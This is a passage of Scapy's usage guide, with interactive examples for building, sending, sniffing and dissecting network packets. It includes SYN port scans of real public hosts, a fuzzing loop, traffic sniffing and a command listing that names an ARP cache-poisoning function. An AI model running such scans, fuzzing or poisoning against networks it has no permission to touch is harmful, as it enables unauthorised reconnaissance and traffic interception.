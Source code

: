 *****
Usage
*****

Starting Scapy
==============

Scapy's interactive shell is run in a terminal session. Root privileges are needed to
send the packets, so we're using ``sudo`` here::
  
    $ sudo ./scapy
    Welcome to Scapy (2.4.0)
    >>> 

On Windows, please open a command prompt (``cmd.exe``) and make sure that you have 
administrator privileges::

    C:\>scapy
    Welcome to Scapy (2.4.0)
    >>>

If you do not have all optional packages installed, Scapy will inform you that 
some features will not be available:: 
                                 
    INFO: Can't import python gnuplot wrapper . Won't be able to plot.
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

The basic features of sending and receiving packets should still work, though. 

Screenshot
----------

If you have installed IPython, scapy will hook to it and you will be able to use auto-completion using the TAB.

.. image:: graphics/scapy-main-console.png
   :align: center


Interactive tutorial
====================

This section will show you several of Scapy's features.
Just open a Scapy session as shown above and try the examples yourself.


First steps
-----------

Let's build a packet and play with it::

    >>> a=IP(ttl=10) 
    >>> a 
    < IP ttl=10 |> 
    >>> a.src 
    ’127.0.0.1’ 
    >>> a.dst="192.168.1.1" 
    >>> a 
    < IP ttl=10 dst=192.168.1.1 |> 
    >>> a.src 
    ’192.168.8.14’ 
    >>> del(a.ttl) 
    >>> a 
    < IP dst=192.168.1.1 |> 
    >>> a.ttl 
    64 

Stacking layers
---------------

The ``/`` operator has been used as a composition operator between two layers. When doing so, the lower layer can have one or more of its defaults fields overloaded according to the upper layer. (You still can give the value you want). A string can be used as a raw layer.

::

    >>> IP()
    <IP |>
    >>> IP()/TCP()
    <IP frag=0 proto=TCP |<TCP |>>
    >>> Ether()/IP()/TCP()
    <Ether type=0x800 |<IP frag=0 proto=TCP |<TCP |>>>
    >>> IP()/TCP()/"GET / HTTP/1.0\r\n\r\n"
    <IP frag=0 proto=TCP |<TCP |<Raw load='GET / HTTP/1.0\r\n\r\n' |>>>
    >>> Ether()/IP()/IP()/UDP()
    <Ether type=0x800 |<IP frag=0 proto=IP |<IP frag=0 proto=UDP |<UDP |>>>>
    >>> IP(proto=55)/TCP()
    <IP frag=0 proto=55 |<TCP |>>


.. image:: graphics/fieldsmanagement.png
   :scale: 90

Each packet can be build or dissected (note: in Python ``_`` (underscore) is the latest result)::

    >>> raw(IP())
    'E\x00\x00\x14\x00\x01\x00\x00@\x00|\xe7\x7f\x00\x00\x01\x7f\x00\x00\x01'
    >>> IP(_)
    <IP version=4L ihl=5L tos=0x0 len=20 id=1 flags= frag=0L ttl=64 proto=IP
     chksum=0x7ce7 src=127.0.0.1 dst=127.0.0.1 |>
    >>>  a=Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"
    >>>  hexdump(a)   
    00 02 15 37 A2 44 00 AE F3 52 AA D1 08 00 45 00  ...7.D...R....E.
    00 43 00 01 00 00 40 06 78 3C C0 A8 05 15 42 23  .C....@.x<....B#
    FA 97 00 14 00 50 00 00 00 00 00 00 00 00 50 02  .....P........P.
    20 00 BB 39 00 00 47 45 54 20 2F 69 6E 64 65 78   ..9..GET /index
    2E 68 74 6D 6C 20 48 54 54 50 2F 31 2E 30 20 0A  .html HTTP/1.0 .
    0A                                               .
    >>> b=raw(a)
    >>> b
    '\x00\x02\x157\xa2D\x00\xae\xf3R\xaa\xd1\x08\x00E\x00\x00C\x00\x01\x00\x00@\x06x<\xc0
     \xa8\x05\x15B#\xfa\x97\x00\x14\x00P\x00\x00\x00\x00\x00\x00\x00\x00P\x02 \x00
     \xbb9\x00\x00GET /index.html HTTP/1.0 \n\n'
    >>> c=Ether(b)
    >>> c
    <Ether dst=00:02:15:37:a2:44 src=00:ae:f3:52:aa:d1 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=67 id=1 flags= frag=0L ttl=64 proto=TCP chksum=0x783c
     src=192.168.5.21 dst=66.35.250.151 options='' |<TCP sport=20 dport=80 seq=0L
     ack=0L dataofs=5L reserved=0L flags=S window=8192 chksum=0xbb39 urgptr=0
     options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

We see that a dissected packet has all its fields filled. That's because I consider that each field has its value imposed by the original string. If this is too verbose, the method hide_defaults() will delete every field that has the same value as the default::

    >>> c.hide_defaults()
    >>> c
    <Ether dst=00:0f:66:56:fa:d2 src=00:ae:f3:52:aa:d1 type=0x800 |<IP ihl=5L len=67
     frag=0 proto=TCP chksum=0x783c src=192.168.5.21 dst=66.35.250.151 |<TCP dataofs=5L
     chksum=0xbb39 options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

Reading PCAP files
------------------

.. index::
   single: rdpcap()

You can read packets from a pcap file and write them to a pcap file. 

    >>> a=rdpcap("/spare/captures/isakmp.cap")
    >>> a
    <isakmp.cap: UDP:721 TCP:0 ICMP:0 Other:0>

Graphical dumps (PDF, PS)
-------------------------

.. index::
   single: pdfdump(), psdump()

If you have PyX installed, you can make a graphical PostScript/PDF dump of a packet or a list of packets (see the ugly PNG image below. PostScript/PDF are far better quality...)::

    >>> a[423].pdfdump(layer_shift=1)
    >>> a[423].psdump("/tmp/isakmp_pkt.eps",layer_shift=1)
    
.. image:: graphics/isakmp_dump.png



=======================   ====================================================
Command                   Effect
=======================   ====================================================
raw(pkt)                  assemble the packet
hexdump(pkt)              have an hexadecimal dump 
ls(pkt)                   have the list of fields values 
pkt.summary()             for a one-line summary 
pkt.show()                for a developed view of the packet 
pkt.show2()               same as show but on the assembled packet (checksum is calculated, for instance) 
pkt.sprintf()             fills a format string with fields values of the packet 
pkt.decode_payload_as()   changes the way the payload is decoded 
pkt.psdump()              draws a PostScript diagram with explained dissection 
pkt.pdfdump()             draws a PDF with explained dissection 
pkt.command()             return a Scapy command that can generate the packet 
=======================   ====================================================



Generating sets of packets
--------------------------

For the moment, we have only generated one packet. Let see how to specify sets of packets as easily. Each field of the whole packet (ever layers) can be a set. This implicitly define a set of packets, generated using a kind of cartesian product between all the fields.

::

    >>> a=IP(dst="www.slashdot.org/30")
    >>> a
    <IP  dst=Net('www.slashdot.org/30') |>
    >>> [p for p in a]
    [<IP dst=66.35.250.148 |>, <IP dst=66.35.250.149 |>,
     <IP dst=66.35.250.150 |>, <IP dst=66.35.250.151 |>]
    >>> b=IP(ttl=[1,2,(5,9)])
    >>> b
    <IP ttl=[1, 2, (5, 9)] |>
    >>> [p for p in b]
    [<IP ttl=1 |>, <IP ttl=2 |>, <IP ttl=5 |>, <IP ttl=6 |>, 
     <IP ttl=7 |>, <IP ttl=8 |>, <IP ttl=9 |>]
    >>> c=TCP(dport=[80,443])
    >>> [p for p in a/c]
    [<IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=443 |>>]

Some operations (like building the string from a packet) can't work on a set of packets. In these cases, if you forgot to unroll your set of packets, only the first element of the list you forgot to generate will be used to assemble the packet.

===============  ====================================================
Command          Effect
===============  ====================================================
summary()        displays a list of summaries of each packet 
nsummary()       same as previous, with the packet number 
conversations()  displays a graph of conversations 
show()           displays the preferred representation (usually nsummary()) 
filter()         returns a packet list filtered with a lambda function 
hexdump()        returns a hexdump of all packets 
hexraw()         returns a hexdump of the Raw layer of all packets 
padding()        returns a hexdump of packets with padding 
nzpadding()      returns a hexdump of packets with non-zero padding 
plot()           plots a lambda function applied to the packet list 
make table()     displays a table according to a lambda function 
===============  ====================================================



Sending packets
---------------

.. index::
   single: Sending packets, send
   
Now that we know how to manipulate packets. Let's see how to send them. The send() function will send packets at layer 3. That is to say it will handle routing and layer 2 for you. The sendp() function will work at layer 2. It's up to you to choose the right interface and the right link layer protocol. send() and sendp() will also return sent packet list if return_packets=True is passed as parameter.

::

    >>> send(IP(dst="1.2.3.4")/ICMP())
    .
    Sent 1 packets.
    >>> sendp(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
    ....
    Sent 4 packets.
    >>> sendp("I'm travelling on Ethernet", iface="eth1", loop=1, inter=0.2)
    ................^C
    Sent 16 packets.
    >>> sendp(rdpcap("/tmp/pcapfile")) # tcpreplay
    ...........
    Sent 11 packets.
    
    Returns packets sent by send()
    >>> send(IP(dst='127.0.0.1'), return_packets=True)
    .
    Sent 1 packets.
    <PacketList: TCP:0 UDP:0 ICMP:0 Other:1>


Fuzzing
-------

.. index::
   single: fuzz(), fuzzing

The function fuzz() is able to change any default value that is not to be calculated (like checksums) by an object whose value is random and whose type is adapted to the field. This enables to quickly built fuzzing templates and send them in loop. In the following example, the IP layer is normal, and the UDP and NTP layers are fuzzed. The UDP checksum will be correct, the UDP destination port will be overloaded by NTP to be 123 and the NTP version will be forced to be 4. All the other ports will be randomized. Note: If you use fuzz() in IP layer, src and dst parameter won't be random so in order to do that use RandIP().::

    >>> send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1)
    ................^C
    Sent 16 packets.


Send and receive packets (sr)
-----------------------------

.. index::
   single: sr()

Now, let's try to do some fun things. The sr() function is for sending packets and receiving answers. The function returns a couple of packet and answers, and the unanswered packets. The function sr1() is a variant that only return one packet that answered the packet (or the packet set) sent. The packets must be layer 3 packets (IP, ARP, etc.). The function srp() do the same for layer 2 packets (Ethernet, 802.3, etc.). If there is, no response a None value will be assigned instead when the timeout is reached.

::

    >>> p = sr1(IP(dst="www.slashdot.org")/ICMP()/"XXXXXXXXXXX")
    Begin emission:
    ...Finished to send 1 packets.
    .*
    Received 5 packets, got 1 answers, remaining 0 packets
    >>> p
    <IP version=4L ihl=5L tos=0x0 len=39 id=15489 flags= frag=0L ttl=42 proto=ICMP
     chksum=0x51dd src=66.35.250.151 dst=192.168.5.21 options='' |<ICMP type=echo-reply
     code=0 chksum=0xee45 id=0x0 seq=0x0 |<Raw load='XXXXXXXXXXX'
     |<Padding load='\x00\x00\x00\x00' |>>>>
    >>> p.show()
    ---[ IP ]---
    version   = 4L
    ihl       = 5L
    tos       = 0x0
    len       = 39
    id        = 15489
    flags     = 
    frag      = 0L
    ttl       = 42
    proto     = ICMP
    chksum    = 0x51dd
    src       = 66.35.250.151
    dst       = 192.168.5.21
    options   = ''
    ---[ ICMP ]---
       type      = echo-reply
       code      = 0
       chksum    = 0xee45
       id        = 0x0
       seq       = 0x0
    ---[ Raw ]---
          load      = 'XXXXXXXXXXX'
    ---[ Padding ]---
             load      = '\x00\x00\x00\x00'


.. index::
   single: DNS, Etherleak

A DNS query (``rd`` = recursion desired). The host 192.168.5.1 is my DNS server. Note the non-null padding coming from my Linksys having the Etherleak flaw::

    >>> sr1(IP(dst="192.168.5.1")/UDP()/DNS(rd=1,qd=DNSQR(qname="www.slashdot.org")))
    Begin emission:
    Finished to send 1 packets.
    ..*
    Received 3 packets, got 1 answers, remaining 0 packets
    <IP version=4L ihl=5L tos=0x0 len=78 id=0 flags=DF frag=0L ttl=64 proto=UDP chksum=0xaf38
     src=192.168.5.1 dst=192.168.5.21 options='' |<UDP sport=53 dport=53 len=58 chksum=0xd55d
     |<DNS id=0 qr=1L opcode=QUERY aa=0L tc=0L rd=1L ra=1L z=0L rcode=ok qdcount=1 ancount=1
     nscount=0 arcount=0 qd=<DNSQR qname='www.slashdot.org.' qtype=A qclass=IN |> 
     an=<DNSRR rrname='www.slashdot.org.' type=A rclass=IN ttl=3560L rdata='66.35.250.151' |>
     ns=0 ar=0 |<Padding load='\xc6\x94\xc7\xeb' |>>>>

The "send'n'receive" functions family is the heart of scapy. They return a couple of two lists. The first element is a list of couples (packet sent, answer), and the second element is the list of unanswered packets. These two elements are lists, but they are wrapped by an object to present them better, and to provide them with some methods that do most frequently needed actions::

    >>> sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23]))
    Received 6 packets, got 3 answers, remaining 0 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)
    >>> ans, unans = _
    >>> ans.summary()
    IP / TCP 192.168.8.14:20 > 192.168.8.1:21 S ==> Ether / IP / TCP 192.168.8.1:21 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:22 S ==> Ether / IP / TCP 192.168.8.1:22 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:23 S ==> Ether / IP / TCP 192.168.8.1:23 > 192.168.8.14:20 RA / Padding
    
If there is a limited rate of answers, you can specify a time interval to wait between two packets with the inter parameter. If some packets are lost or if specifying an interval is not enough, you can resend all the unanswered packets, either by calling the function again, directly with the unanswered list, or by specifying a retry parameter. If retry is 3, scapy will try to resend unanswered packets 3 times. If retry is -3, scapy will resend unanswered packets until no more answer is given for the same set of unanswered packets 3 times in a row. The timeout parameter specify the time to wait after the last packet has been sent::

    >>> sr(IP(dst="172.20.29.5/30")/TCP(dport=[21,22,23]),inter=0.5,retry=-2,timeout=1)
    Begin emission:
    Finished to send 12 packets.
    Begin emission:
    Finished to send 9 packets.
    Begin emission:
    Finished to send 9 packets.
    
    Received 100 packets, got 3 answers, remaining 9 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:9 ICMP:0 Other:0>)


SYN Scans
---------

.. index::
   single: SYN Scan

Classic SYN Scan can be initialized by executing the following command from Scapy's prompt::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S"))

The above will send a single SYN packet to Google's port 80 and will quit after receiving a single response::

    Begin emission:
    .Finished to send 1 packets.
    *
    Received 2 packets, got 1 answers, remaining 0 packets
    <IP  version=4L ihl=5L tos=0x20 len=44 id=33529 flags= frag=0L ttl=244
    proto=TCP chksum=0x6a34 src=72.14.207.99 dst=192.168.1.100 options=// |
    <TCP  sport=www dport=ftp-data seq=2487238601L ack=1 dataofs=6L reserved=0L
    flags=SA window=8190 chksum=0xcdc7 urgptr=0 options=[('MSS', 536)] |
    <Padding  load='V\xf7' |>>>

From the above output, we can see Google returned “SA” or SYN-ACK flags indicating an open port.

Use either notations to scan ports 400 through 443 on the system:

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=666,dport=(440,443),flags="S"))

or

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=RandShort(),dport=[440,441,442,443],flags="S"))

In order to quickly review responses simply request a summary of collected packets::

    >>> ans, unans = _
    >>> ans.summary()
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:440 S ======> IP / TCP 192.168.1.1:440 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:441 S ======> IP / TCP 192.168.1.1:441 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:442 S ======> IP / TCP 192.168.1.1:442 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp-data SA / Padding

The above will display stimulus/response pairs for answered probes. We can display only the information we are interested in by using a simple loop:

    >>> ans.summary( lambda(s,r): r.sprintf("%TCP.sport% \t %TCP.flags%") )
    440      RA
    441      RA
    442      RA
    https    SA

Even better, a table can be built using the ``make_table()`` function to display information about multiple targets::

    >>> ans, unans = sr(IP(dst=["192.168.1.1","yahoo.com","slashdot.org"])/TCP(dport=[22,80,443],flags="S"))
    Begin emission:
    .......*.**.......Finished to send 9 packets.
    **.*.*..*..................
    Received 362 packets, got 8 answers, remaining 1 packets
    >>> ans.make_table(
    ...    lambda(s,r): (s.dst, s.dport,
    ...    r.sprintf("{TCP:%TCP.flags%}{ICMP:%IP.src% - %ICMP.type%}")))
        66.35.250.150                192.168.1.1 216.109.112.135 
    22  66.35.250.150 - dest-unreach RA          -               
    80  SA                           RA          SA              
    443 SA                           SA          SA              

The above example will even print the ICMP error type if the ICMP packet was received as a response instead of expected TCP.

For larger scans, we could be interested in displaying only certain responses. The example below will only display packets with the “SA” flag set::

    >>> ans.nsummary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA")
    0003 IP / TCP 192.168.1.100:ftp_data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp_data SA

In case we want to do some expert analysis of responses, we can use the following command to indicate which ports are open::

    >>> ans.summary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA",prn=lambda(s,r):r.sprintf("%TCP.sport% is open"))
    https is open

Again, for larger scans we can build a table of open ports::

    >>> ans.filter(lambda (s,r):TCP in r and r[TCP].flags&2).make_table(lambda (s,r): 
    ...             (s.dst, s.dport, "X"))
        66.35.250.150 192.168.1.1 216.109.112.135 
    80  X             -           X               
    443 X             X           X

If all of the above methods were not enough, Scapy includes a report_ports() function which not only automates the SYN scan, but also produces a LaTeX output with collected results::

    >>> report_ports("192.168.1.1",(440,443))
    Begin emission:
    ...*.**Finished to send 4 packets.
    *
    Received 8 packets, got 4 answers, remaining 0 packets
    '\\begin{tabular}{|r|l|l|}\n\\hline\nhttps & open & SA \\\\\n\\hline\n440
     & closed & TCP RA \\\\\n441 & closed & TCP RA \\\\\n442 & closed & 
    TCP RA \\\\\n\\hline\n\\hline\n\\end{tabular}\n'


TCP traceroute
--------------

.. index::
   single: Traceroute

A TCP traceroute::

    >>> ans, unans = sr(IP(dst=target, ttl=(4,25),id=RandShort())/TCP(flags=0x2))
    *****.******.*.***..*.**Finished to send 22 packets.
    ***......
    Received 33 packets, got 21 answers, remaining 1 packets
    >>> for snd,rcv in ans:
    ...     print snd.ttl, rcv.src, isinstance(rcv.payload, TCP)
    ... 
    5 194.51.159.65 0
    6 194.51.159.49 0
    4 194.250.107.181 0
    7 193.251.126.34 0
    8 193.251.126.154 0
    9 193.251.241.89 0
    10 193.251.241.110 0
    11 193.251.241.173 0
    13 208.172.251.165 0
    12 193.251.241.173 0
    14 208.172.251.165 0
    15 206.24.226.99 0
    16 206.24.238.34 0
    17 173.109.66.90 0
    18 173.109.88.218 0
    19 173.29.39.101 1
    20 173.29.39.101 1
    21 173.29.39.101 1
    22 173.29.39.101 1
    23 173.29.39.101 1
    24 173.29.39.101 1

Note that the TCP traceroute and some other high-level functions are already coded::

    >>> lsc()
    sr               : Send and receive packets at layer 3
    sr1              : Send packets at layer 3 and return only the first answer
    srp              : Send and receive packets at layer 2
    srp1             : Send and receive packets at layer 2 and return only the first answer
    srloop           : Send a packet at layer 3 in loop and print the answer each time
    srploop          : Send a packet at layer 2 in loop and print the answer each time
    sniff            : Sniff packets
    p0f              : Passive OS fingerprinting: which OS emitted this TCP SYN ?
    arpcachepoison   : Poison target's cache with (your MAC,victim's IP) couple
    send             : Send packets at layer 3
    sendp            : Send packets at layer 2
    traceroute       : Instant TCP traceroute
    arping           : Send ARP who-has requests to determine which hosts are up
    ls               : List  available layers, or infos on a given layer
    lsc              : List user commands
    queso            : Queso OS fingerprinting
    nmap_fp          : nmap fingerprinting
    report_ports     : portscan a target and output a LaTeX table
    dyndns_add       : Send a DNS add message to a nameserver for "name" to have a new "rdata"
    dyndns_del       : Send a DNS delete message to a nameserver for "name"
    [...]

Scapy may also use the GeoIP2 module, in combination with matplotlib and `cartopy <http://scitools.org.uk/cartopy/docs/latest/installing.html>`_ to generate fancy graphics such as below:

.. image:: graphics/traceroute_worldplot.png

In this example, we used the `traceroute_map()` function to print the graphic. This method is a shortcut which uses the `world_trace` of the `TracerouteResult` objects.
It could have been done differently:

    >>> conf.geoip_city = "path/to/GeoLite2-City.mmdb"
    >>> a = traceroute("www.google.co.uk", verbose=0)[0]
    >>> b = traceroute("www.secdev.org", verbose=0)[0]
    >>> a.res += b.res
    >>> a.world_trace()

or such as above:

    >>> conf.geoip_city = "path/to/GeoLite2-City.mmdb"
    >>> traceroute_map("www.google.co.uk", "www.secdev.org")

To use those functions, it is required to have installed the `geoip2 <https://pypi.python.org/pypi/geoip2>`_ module, `its database <https://dev.maxmind.com/geoip/geoip2/geolite2/>`_ (`direct download <https://geolite.maxmind.com/download/geoip/database/GeoLite2-City.tar.gz>`_)
but also the `cartopy <http://scitools.org.uk/cartopy/docs/latest/installing.html>`_ module.

Configuring super sockets
-------------------------

.. index::
   single: super socket

The process of sending packets and receiving is quite complicated. As I wanted to use the PF_PACKET interface to go through netfilter, I also needed to implement an ARP stack and ARP cache, and a LL stack. Well it seems to work, on ethernet and PPP interfaces, but I don't guarantee anything. Anyway, the fact I used a kind of super-socket for that mean that you can switch your IO layer very easily, and use PF_INET/SOCK_RAW, or use PF_PACKET at level 2 (giving the LL header (ethernet,...) and giving yourself mac addresses, ...). I've just added a super socket which use libdnet and libpcap, so that it should be portable::

    >>> conf.L3socket=L3dnetSocket
    >>> conf.L3listen=L3pcapListenSocket

Sniffing
--------

.. index::
   single: sniff()

We can easily capture some packets or even clone tcpdump or tshark. Either one interface or a list of interfaces to sniff on can be provided. If no interface is given, sniffing will happen on every interface::

    >>>  sniff(filter="icmp and host 66.35.250.151", count=2)
    <Sniffed: UDP:0 TCP:0 ICMP:2 Other:0>
    >>>  a=_
    >>>  a.nsummary()
    0000 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    0001 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    >>>  a[1]
    <Ether dst=00:ae:f3:52:aa:d1 src=00:02:15:37:a2:44 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=ICMP chksum=0x3831
     src=192.168.5.21 dst=66.35.250.151 options='' |<ICMP type=echo-request code=0
     chksum=0x6571 id=0x8745 seq=0x0 |<Raw load='B\xf7g\xda\x00\x07um\x08\t\n\x0b
     \x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d
     \x1e\x1f !\x22#$%&\'()*+,-./01234567' |>>>>
    >>> sniff(iface="wifi0", prn=lambda x: x.summary())
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 5 00:0a:41:ee:a5:50 / 802.11 Probe Response / Info SSID / Info Rates / Info DSset / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 11 00:07:50:d6:44:3f / 802.11 Authentication
    802.11 Management 11 00:0a:41:ee:a5:50 / 802.11 Authentication
    802.11 Management 0 00:07:50:d6:44:3f / 802.11 Association Request / Info SSID / Info Rates / Info 133 / Info 149
    802.11 Management 1 00:0a:41:ee:a5:50 / 802.11 Association Response / Info Rates / Info 133 / Info 149
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 / LLC / SNAP / ARP who has 172.20.70.172 says 172.20.70.171 / Padding
    802.11 / LLC / SNAP / ARP is at 00:0a:b7:4b:9c:dd says 172.20.70.172 / Padding
    802.11 / LLC / SNAP / IP / ICMP echo-request 0 / Raw
    802.11 / LLC / SNAP / IP / ICMP echo-reply 0 / Raw
    >>> sniff(iface="eth1", prn=lambda x: x.show())
    ---[ Ethernet ]---
    dst       = 00:ae:f3:52:aa:d1
    src       = 00:02:15:37:a2:44
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 0
       flags     = DF
       frag      = 0L
       ttl       = 64
       proto     = ICMP
       chksum    = 0x3831
       src       = 192.168.5.21
       dst       = 66.35.250.151
       options   = ''
    ---[ ICMP ]---
          type      = echo-request
          code      = 0
          chksum    = 0x89d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Ethernet ]---
    dst       = 00:02:15:37:a2:44
    src       = 00:ae:f3:52:aa:d1
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 2070
       flags     = 
       frag      = 0L
       ttl       = 42
       proto     = ICMP
       chksum    = 0x861b
       src       = 66.35.250.151
       dst       = 192.168.5.21
       options   = ''
    ---[ ICMP ]---
          type      = echo-reply
          code      = 0
          chksum    = 0x91d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Padding ]---
                load      = '\n_\x00\x0b'
    >>> sniff(iface=["eth1","eth2"], prn=lambda x: x.sniffed_on+": "+x.summary())
    eth3: Ether / IP / ICMP 192.168.5.21 > 66.35.250.151 echo-request 0 / Raw  
    eth3: Ether / IP / ICMP 66.35.250.151 > 192.168.5.21 echo-reply 0 / Raw    
    eth2: Ether / IP / ICMP 192.168.5.22 > 66.35.250.152 echo-request 0 / Raw  
    eth2: Ether / IP / ICMP 66.35.250.152 > 192.168.5.22 echo-reply 0 / Raw

For even more control over displayed information we can use the ``sprintf()`` function::

